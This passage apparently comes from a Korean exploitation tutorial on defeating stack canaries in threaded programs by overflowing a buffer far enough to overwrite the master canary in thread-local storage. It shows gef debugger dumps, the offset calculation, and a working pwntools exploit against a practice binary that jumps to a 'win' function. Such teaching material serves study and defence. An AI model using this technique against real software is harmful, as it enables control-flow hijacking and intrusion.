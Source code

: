 ```bash
Start              End                Size               Offset             Perm Path
0x00007ffff7580000 0x00007ffff7d83000 0x0000000000803000 0x0000000000000000 rw- <tls-th1><stack-th2>  <-  $rbx, $rsp, $rbp, $rsi, $rdi, $r12
0x00007ffffffde000 0x00007ffffffff000 0x0000000000021000 0x0000000000000000 rw- [stack]  <-  $r9, $r15
```
스레드의 스택은 스레드 로컬 저장소(TLS) 위에 배치되며, 여기에는 마스터 카나리가 저장됩니다:
```bash
gef> tls
$tls = 0x7ffff7d7f640
...
---------------------------------------------------------------------------- TLS ----------------------------------------------------------------------------
0x7ffff7d7f640|+0x0000|+000: 0x00007ffff7d7f640  ->  [loop detected]  <-  $rbx, $r12
0x7ffff7d7f648|+0x0008|+001: 0x00000000004052b0  ->  0x0000000000000001
0x7ffff7d7f650|+0x0010|+002: 0x00007ffff7d7f640  ->  [loop detected]
0x7ffff7d7f658|+0x0018|+003: 0x0000000000000001
0x7ffff7d7f660|+0x0020|+004: 0x0000000000000000
0x7ffff7d7f668|+0x0028|+005: 0x493fdc653a156800  <-  canary
0x7ffff7d7f670|+0x0030|+006: 0xb79b79966e9916c4  <-  PTR_MANGLE cookie
0x7ffff7d7f678|+0x0038|+007: 0x0000000000000000
...
```
{% hint style="info" %}
위의 GDB 함수 중 일부는 [bata24/gef](https://github.com/bata24/gef)라는 확장에서 정의되어 있으며, 일반적인 [hugsy/gef](https://github.com/hugsy/gef)보다 더 많은 기능을 제공합니다.
{% endhint %}

결과적으로, 큰 버퍼 오버플로우는 스택 카나리와 TLS의 마스터 카나리를 모두 수정할 수 있게 합니다. 이것이 오프셋입니다:
```bash
gef> p/x 0x7ffff7d7f668 - $rdi
$1 = 0x848
```
이것은 `win`을 호출하는 짧은 익스플로잇입니다:
```python
from pwn import *

context.binary = 'thread_canary'

payload  = b'A' * 0x28                    # buffer overflow offset
payload += b'BBBBBBBB'                    # overwritting stack canary
payload += b'A' * 8                       # saved $rbp
payload += p64(context.binary.sym.win)    # return address
payload += b'A' * (0x848 - len(payload))  # padding
payload += b'BBBBBBBB'                    # overwritting master canary

io = context.binary.process()
io.sendline(payload)
io.interactive()
```
## 다른 예제 및 참고자료
